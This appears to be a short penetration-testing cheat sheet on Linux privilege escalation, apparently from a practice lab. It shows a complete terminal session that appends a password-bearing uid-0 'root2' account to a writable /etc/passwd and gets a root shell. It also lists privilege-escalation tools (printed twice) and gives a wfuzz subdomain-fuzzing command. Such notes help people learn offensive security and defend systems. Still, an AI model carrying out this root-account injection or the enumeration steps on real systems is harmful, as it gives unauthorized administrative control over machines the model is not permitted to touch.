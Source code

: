 **capabilities** 


# Privilege Escalation 
## Linux
### Bad Permissions on Passwd 
~~~bash
student@debian:/var/scripts$ openssl passwd evil
5qL5bp5Q1K.7Y
student@debian:/var/scripts$ echo "root2:5qL5bp5Q1K.7Y:0:0:root:/root:/bin/bash" >> /etc/passwd
student@debian:/var/scripts$ su root2
Password: 
root@debian:/var/scripts# id
uid=0(root) gid=0(root) groups=0(root)
root@debian:/var/scripts# 
~~~


### Additional Tools

- Linpeas <https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS>
- Linenum.sh <https://github.com/rebootuser/LinEnum>
- Linux Eploit Suggester <https://github.com/mzet-/linux-exploit-suggester>
- Linuxprivchecker.py <https://github.com/sleventyeleven/linuxprivchecker>
- PayloadsAllTheThings <https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md>
- GTFOBins https://gtfobins.github.io/
- TryHackMe Linux PrivEsc Playground 
- LDPRELOAD <https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/>
- <https://github.com/DominicBreuker/pspy>
- Linpeas <https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS>
- Linenum.sh <https://github.com/rebootuser/LinEnum>
- Linux Eploit Suggester <https://github.com/mzet-/linux-exploit-suggester>
- Linuxprivchecker.py <https://github.com/sleventyeleven/linuxprivchecker>
- PayloadsAllTheThings <https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md>
- GTFOBins https://gtfobins.github.io/
- TryHackMe Linux PrivEsc Playground 
- LDPRELOAD <https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/>
- <https://github.com/DominicBreuker/pspy>
- unix-privesc-check 

### Enum Tools

- dirsearch 
- Seclists top100
- enum subdomains wfuzz `wfuzz -c -f sub-fighter -w top5000.txt 'http://cms.htm' -H "Host: FUZZ.cmess.htm --hw 290"`
- crackstation - password hash checker 
